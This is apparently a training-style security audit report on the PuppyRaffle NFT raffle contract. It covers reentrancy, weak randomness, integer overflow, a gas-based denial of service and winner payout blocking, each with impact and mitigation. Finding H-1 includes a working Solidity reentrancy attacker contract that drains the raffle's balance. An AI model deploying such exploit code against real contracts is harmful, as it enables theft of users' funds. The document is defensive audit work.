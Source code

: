 # Protocol Summary
Puppy Rafle is a protocol dedicated to raffling off puppy NFTs with variying rarities. A portion of entrance fees go to the winner, and a fee is taken by another address decided by the protocol owner.

# Roles
Owner: The only one who can change the feeAddress, denominated by the _owner variable.
Fee User: The user who takes a cut of raffle entrance fees. Denominated by the feeAddress variable.
Raffle Entrant: Anyone who enters the raffle. Denominated by being in the `players` array.

# Executive Summary

Issues found

|Severity | Number of issues found|
|---|---|
|High|	3|
|Medium|	2|
|Info|	0|
|Total|	5|


# Findings

## High

### [H-1] `PuppyRaffle::refund` External function call before updating state, leaving room for a reentrancy attack.

**Description:** The refund function in the PuppyRaffle contract allows an attacker to exploit a reentrancy vulnerability. The external call to transfer funds (via refund()) is made before updating the contract's state, enabling an attacker to repeatedly call the refund function through a fallback mechanism, thereby draining the contract's balance.

**Impact:** High 

**Proof of Concept:**

If the starting balance of the attacker contract is 0 ETH and the starting contract balance is 4 ETH, after an attack by the ReentrencyAttacker contract, as seen below, the contract balance will be drained to zero:

- Ending attacker contract balance: 5 ETH
- Ending contract balance: 0 ETH

<details>
Please include the code below in the PuppyRaffle.t.sol
<summary>Proof of code</summary>

```javascript
contract ReentrencyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```
</details>


**Recommended Mitigation:**

- Use Reentrancy Guard: Consider implementing the ReentrancyGuard pattern to prevent multiple calls to the same function during the execution process.

- Checks-Effects-Interactions Pattern: Always follow the best practice of the checks-effects-interactions pattern, which involves checking conditions, updating state, and interacting with external contracts only after the state has been updated.


## [H-2] Weak/Insecure Randomness in `PuppyRaffle::selectWinner` allows user to incluence or predict raffle  and/or winning puppy. 

**Description:** Hashing `msg.sender`, `block.timestamp`, and `block.difficulty` produces random numbers and for the case of this raffle, it is considered Not Good.

*Note:* This means users can front-run this function and call ``refund` if they see they are not the winner 

**Impact:** Any user can influence the winner of the raffle, winning the money and selecting the `rarest` puppy. This will make the entire raffle worthlesss if it becomes a gas war as to who win the raffle.

**Proof of Concept:**
1. Validators can know ahead of time the `block.timestamp` and `block.difficulty` and use to predict when/how to participate. 
2. Users can mine/manipulate their `msg.sender` value to result in their address being used to generate the winner address.
3. Users can revert their `selectWinner` transaction if they don't like the winner ir resulting puppy.

**Recommended Mitigation:**

Consider using a cryptographically provable random number generator, i.e., Chainlink VRF.


        //@audit arithemethic overflow. Fixes includes, newer version of Solidity, bigger uints(s).


### [H-3] Interger overflow of `PuppyRaffle::totalFees` looses fees.

**Description:** Solidity version prior to `0.8.0` integers were subject to interger overflow.

```javascript
uint64 myVar = type(uint64).max

// myVar = 18446744073709551615
myVar = myVar + 1

// myVar will be zero
```

**Impact:** In `PuppyRaffle::selectWinner`, `totalFees` are accumulated for the `address` to collect in the `PuppyRaffle::withdrawFees`. However, if the `totalFees` variable overflows, the `feeAddress` may not collect the correct amount of fees. This will cause a lot of fees to be stuck in the contract.

**Proof of Concept:**
1. We conclude a raffle of 4 players.
2. We then got 89 players to enter the new raffle.
3. `totalFees` + uint64(fees); will overflow.
4. You will not be able to withdraw due to the line in the `withdrawfees` function. Except in the case where a selfdestruct is initiated.

<details>
<summary>Code</summary>
</details>

**Recommended Mitigation:**
1. Use a newer version of solidity `(0.8.18)`.
2. Use uint256 instead of uint64 for the `totalFees`.
3. Tou could also use the `safeMath` library of Openzeppelin.
4. Remove the balance check from `PuppyRaffle::withdrawfees`

```diff
-        require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");

// there are more attack vector with that final require, so we recommend removing it.
```

## Medium

### [M-1] Looping through players' array to check for duplicates in `PuppyRaffle::enterRaffle` is a Potential DOS attack. (Root Cause + Impact)

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, gas cost accumulates exponentially when new players make new checks. Every additional address in the `players` array is an additional check the loop will have to make.

**Impact:** The gas cost for Raffle rntrsnt will greately increase as more player enters the raffle. This will discourage later users from entering and causing a rush at the start of the raffle. 

An attacker might make the `PuppyRaffle::entrants` array to be so big, that no one else enters, saving the win stakes for themselves.

**Proof of Concept:**

If we have two sets of 100 players enter, the cost of gas will be such:

- thegas cost of the first 100 players: 6252128
- the gas cost of the Second 100 players: 18068218

this is more than 3X more expensive for the 2nd 100 players.

<details>
<summary>Proof of code</summary>

Include the following test into `PuppyRaffleTest.t.sol`

```javascript
 function testDosForEnterRaffleFunction () public {

        vm.txGasPrice(1);

        // Let's enter 100 players
        uint256 playerNum = 100;
        address [] memory players = new address[](playerNum);
        for (uint256 i = 0; i < playerNum; i++){
            players[i] = address(i);
        }
        
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee*players.length}(players);
        uint256 gasEnd = gasleft();


        uint256 gasUsedFirst = (gasStart - gasEnd)*tx.gasprice;
        console.log("gas cost of the first 100 players:", gasUsedFirst);


        // for the 2nd 100 players

      address [] memory playersTwo = new address[](playerNum);
        for (uint256 i = 0; i < playerNum; i++){
            playersTwo[i] = address(i + playerNum); // address 101, 102, 103...
        }
        
        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee*players.length}(playersTwo);
        uint256 gasEndSecond = gasleft();


        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond)*tx.gasprice;
        console.log("gas cost of the Second 100 players:", gasUsedSecond);

        assert(gasUsedFirst < gasUsedSecond);


    }
```
</details>

**Recommended Mitigation:** Recommendations include;
- Consider allowing duplicates. Here, users can create unique wallets and enter the raffle multiple times.

- Consider using mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.  


### [M-2] Smart Contract wallet raffle winners without a receive or a fallback will block the start of a new contest.


**Description:** The PuppyRaffle::selectWinner function is responsible for resetting the lottery. However, if the winner is a smart contract wallet that rejects payment, the lottery will not be able to restart.

Non-smart contract wallet users could reenter, but it might cost them a lot of gas due to the duplicate check.

**Impact:** The PuppyRaffle::selectWinner function could revert many times and make it very difficult to reset the lottery, preventing a new one from starting.

Also, true winners would not be able to get paid out, and someone else would win their money!

**Proof of Concept:**

1. 10 smart contract wallets enter the lottery without a fallback or receive function.
2. The lottery ends
3. The selectWinner function wouldn't work, even though the lottery is over!

**Recommended Mitigation:** There are a few options to mitigate this issue.

Do not allow smart contract wallet entrants (not recommended)
Create a mapping of addresses -> payout so winners can pull their funds out themselves, putting the owners on the winner to claim their prize. (Recommended)
